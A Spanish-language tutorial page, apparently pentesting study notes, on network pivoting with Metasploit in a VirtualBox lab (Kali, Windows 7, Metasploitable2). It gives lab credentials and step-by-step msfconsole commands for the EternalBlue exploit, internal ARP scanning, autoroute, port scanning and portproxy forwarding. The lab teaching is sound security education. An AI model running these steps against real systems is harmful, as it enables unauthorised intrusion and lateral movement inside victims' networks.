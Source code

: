 ```yaml
---
icon: '8'
---
```


# Pivoting con Metasploit

## Presentación del Mapa de Red

SI encontramos en una máquina solo una interfaz de red eso signfica que esa no es la que tenemos que hacer **Pivoting** ya que no se puede. A continuación enseñó un ejemplo de lo que podría ser.

<figure><img src="../../.gitbook/assets/image (749).png" alt=""><figcaption></figcaption></figure>

## Pivoting en Entornos Windows

{% embed url="https://drive.google.com/file/d/11oWEHwqu9AOKNwBU483abdGhnxJaZKT5/view?usp=sharing" %}

{% embed url="https://sourceforge.net/projects/metasploitable/files/Metasploitable2" %}

Este sería el esquema que vamos a tratar. Se realiza **Pivoting** en la máquina **Windows**.&#x20;

<figure><img src="../../.gitbook/assets/image (750).png" alt=""><figcaption></figcaption></figure>

Ahora explicaré cómo configurar una red virtual en VirtualBox y asignar diferentes adaptadores de red a las máquinas virtuales (VM) involucradas en un entorno de pentesting. En este caso, utilizaremos máquinas con Windows 7, Metasploitable2 y Kali Linux.

### 1. Configuración de la Red en VirtualBox

1. **Acceder al Administrador de Red:**
   * En la ventana principal de VirtualBox, dirígete a la barra de menús superior y selecciona **Archivo** > **Herramientas** > **Administrador de red**.
2. **Crear una nueva Red Interna (NAT):**
   * En el Administrador de Red, localiza el apartado **Redes NAT**.
   * Haz clic en el botón **Crear** para añadir una nueva red.
3. **Asignación de la red NAT:**
   * Dale un nombre a la red, por ejemplo, `Red_Pivoting`.
   * Asigna el prefijo IPv4 de la red como `10.10.10.0/24`.
   * Asegúrate de que se haya asignado correctamente y haz clic en **Aplicar**.

Ahora tienes configurada una red interna (NAT) que utilizarás para conectar las máquinas virtuales.

### 2. Configuración de la Máquina Windows 7

1. **Acceder a la configuración de la máquina:**
   * En VirtualBox, selecciona la máquina de Windows 7 y haz clic en **Configuración**.
2. **Configuración de adaptadores de red:**
   * En el panel de configuración de la máquina, ve a la sección **Red**.
   * Habilita **Adaptador 2**, selecciona la opción **Conectado a** y elige **Red NAT**. Esta configuración le permitirá a la máquina Windows 7 comunicarse a través de la red NAT que acabamos de crear.
3. **Verificación de interfaces de red:**
   * Ahora la máquina Windows 7 tendrá dos interfaces de red: una asociada al adaptador puente (que se conecta a la red física de tu PC) y otra conectada a la red NAT que acabamos de configurar.

### 3. Configuración de la Máquina Metasploitable2

1. **Configurar adaptador de red en Metasploitable2:**
   * Selecciona la máquina Metasploitable2 en VirtualBox y ve a la configuración.
   * Asegúrate de que **solo hay un adaptador de red** conectado y que esté configurado para usar **Red NAT**.

Esto asegura que Metasploitable2 estará en la misma red NAT que la máquina Windows 7, pero sin interfaces adicionales que puedan complicar la configuración.

### 4. Configuración de la Máquina Kali Linux

1. **Configurar adaptador de red para Kali Linux:**
   * Selecciona la máquina Kali Linux y abre su configuración en VirtualBox.
   * En la sección **Red**, configura el **Adaptador 1** como un **Adaptador puente**. Esto hará que Kali Linux se conecte directamente a la red física de tu equipo, permitiéndole interactuar con otras máquinas de la misma red local.

### 5. Orden de Arranque

1. **Kali Linux**: Inicia primero.
2. **Windows 7**: Luego, enciende la máquina víctima.
3. **Metasploitable2**: Finalmente, arranca la máquina vulnerable.

### 6. Comprobaciones de Red

#### Windows 7

* Abre la terminal y ejecuta `ipconfig`.
* Verifica que haya **dos interfaces de red**: una para el adaptador puente y otra para la red NAT.

#### Kali Linux

* Abre la terminal y ejecuta `ifconfig`.
* Asegúrate de que solo haya **una interfaz de red** conectada a la red puente.

#### Metasploitable2

* Inicia sesión con:
  * **Usuario**: `msfadmin`
  * **Contraseña**: `msfadmin`
* Ejecuta `ifconfig` y asegúrate de que solo haya **una interfaz de red** conectada a la red NAT.

### 7- Infiltración en la Máquina Windows7 y Pivoting

Para identificar las máquinas en la red local:

```bash
arp-scan -I eth0 --localnet
```

Explotación de la Vulnerabilidad EternalBlue.

```
msfconsole
search eternalblue
use 0
show options
set RHOSTS <IP máquina víctima>
run
```

En meterpreter.

```bash
ipconfig
```

Busca una segunda IP en la red NAT en la interfaz 13. Esta podría indicar una red interna para pivoting. Si solo hay una IP, tal vez esta máquina no sea adecuada para pivoting.

Poner en Segundo Plano la Sesión de Meterpreter

```
Ctrl+Z
```

Para ver las sesiones en segundo plano.

```
sessions -l
```

Módulo de Metasploit para encontrar equipos de la Red Interna.

```bash
use windows/gather/arp_scanner
show options
set SESSION 1
set RHOSTS <IP máquina víctima>/24 #Rango de las IPs por eso el 24
run
```

Nos encuentra las distintas IPs de nuestra Red Interna. Ahora quiero que me envíe el tráfico desde la máquina víctima Windows a la máquina víctima objetivo Metasploitable2 para que llegue a mi Kali.

```bash
use multi/manage/autoroute
show options
set SESSION 1
run
```

Ya tenemos el tráfico enrutado. Hacer escaneo de los puertos abiertos de la máquina víctima.

```bash
use scanner/portscan/tcp
show options
set RHOSTS <IP máquina víctima>
run
```

Vemos los puertos abiertos es hacer **`nmap`** pero con **Metasploit**. En caso de hacer el Pivoting en Windows realizamos lo siguiente.

```bash
use post/windows/manage/portproxy
show options
set CONNECT_ADDRESS <IP máquina víctima> 
set CONNECT_PORT 80  # Puerto al que queremos acceder
set LOCAL_ADDRESS 0.0.0.0  # Siempre debe ser 0.0.0.0
set LOCAL_PORT 5000  # Puerto local para redirigir el tráfico del puerto objetivo
set SESSION 1  # ID de la sesión de Meterpreter de la máquina Windows
run
```

Abrimos el navegador con la IP de la máquina Windows 7 con el puerto 5000 porque es donde me he traído el puerto 80.
